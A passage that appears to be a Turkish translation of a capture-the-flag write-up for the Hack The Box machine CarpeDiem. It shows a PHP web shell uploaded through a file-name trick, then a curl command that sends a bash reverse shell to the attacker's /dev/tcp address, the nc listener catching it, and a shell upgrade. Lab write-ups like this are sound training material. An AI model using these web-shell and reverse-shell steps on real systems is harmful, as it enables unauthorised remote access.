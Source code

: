 Bu isteği bir PHP web shell içerecek şekilde güncelleyeceğim. Görünüşe göre, dosyanın adını koruyor ve ismin önüne bir sayı ekliyor. Bu yüzden, dosya adını **.php** ile bitecek şekilde değiştireceğim: 

It works:

![Pasted image 20250108040415.png](/img/user/Pasted%20image%2020250108040415.png)


### Shell

Komut olarak basit bir [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) koyacağım ve göndereceğim:

```
oxdf@hacky$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' http://portal.carpediem.htb/uploads/1669663920_0xdf.php
```


Bir **nc** dinleyicisinde bir shell elde edilir:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.167 46920
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$ 
```

[Script / stty](https://www.youtube.com/watch?v=DqE6DxqJg8Q) numarası ile shell'i yükselteceğim:

```
www-data@3c371615b7aa:/var/www/html/portal/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@3c371615b7aa:/var/www/html/portal/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@3c371615b7aa:/var/www/html/portal/uploads$ 
```


### CarpeDiem'de hflaccus olarak Shell

### Host Enumeration

#### Docker

Bu hostta pek bir şey yok ve açıkça bir Docker konteyneri:

* Host adı CarpeDiem değil rastgele bir string.
* System root'ta bir .dockerenv dosyası var.
* ifconfig ve ip gibi yaygın komutlar eksik.
